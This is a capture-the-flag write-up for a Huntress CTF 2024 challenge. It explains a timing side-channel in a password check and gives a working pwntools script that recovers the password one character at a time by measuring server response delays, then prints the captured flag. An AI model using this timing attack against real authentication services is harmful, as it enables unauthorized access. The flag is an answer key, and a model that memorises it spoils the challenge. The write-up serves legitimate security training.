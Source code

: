 # Time will tell

![image](https://github.com/user-attachments/assets/9cdc050f-df9b-4833-a387-cb199414cafb)

Download: [app.py](https://raw.githubusercontent.com/LazyTitan33/CTF-Writeups/refs/heads/main/Huntress-CTF-2024/challenge-files/app.py)

## My Solution

As the challenge description already says, this is a side-channel timing attack where if we put an 8 character string starting with a valid character, the response from the server will be slightly longer than if we don't. This can be measured and used to figure out the correct password to get the flag:  

```python
from pwn import *
import time

# Set up the connection to the server
r = remote('challenge.ctf.games', 30545)
# r = remote('localhost', 1337)

# Receive initial messages
initial_message = r.recvuntil(b': ')
print(initial_message.decode())  # Print the initial message

# Initialize the password variable
password = b'aaaaaaaa'  # Start with a default guess

# Start with a base threshold for timing
base_time = 0.35

# Loop through each position in the password
for position in range(8):
    found_character = False  # Flag to check if the character is found

    for char in '0123456789abcdef':  # Possible characters
        guess = password[:position] + bytes(char, 'utf-8') + password[position + 1:]  # Update the guess
        print(f"Trying guess: {guess.decode()}")  # Print current guess

        # Measure the time taken to send the guess and receive the response
        start_time = time.time()
        r.sendline(guess)  # Send the current guess

        # Wait for the response
        response = r.recvline()  # Receive the response line
        end_time = time.time()

        # Print the response and the time taken
        print(response.decode())  # Print the server's response
        threshold = end_time - start_time
        print(f"Time taken for guess '{guess.decode()}': {threshold:.6f} seconds")

        # Check if the response time indicates a correct character
        if threshold > base_time:
            print(f"Character '{char}' at position {position} is likely correct.")
            password = guess  # Update the password with the correct character
            found_character = True
            base_time += 0.1  # Increase the threshold for the next character
            print(f"Updated base time: {base_time:.2f}")
            break  # Move to the next character position

    # If no character was found for this position, notify
    if not found_character:
        print(f"No correct character found at position {position}.")
        break  # Exit if no valid character was found

# Final output
print(f"Cracked password: {password.decode()}")
```

![image](https://github.com/user-attachments/assets/01df31e3-20fe-4aa0-b330-8ad703061e40)

`flag{ab6962e29ed608c0710dbf2910f358d5}`
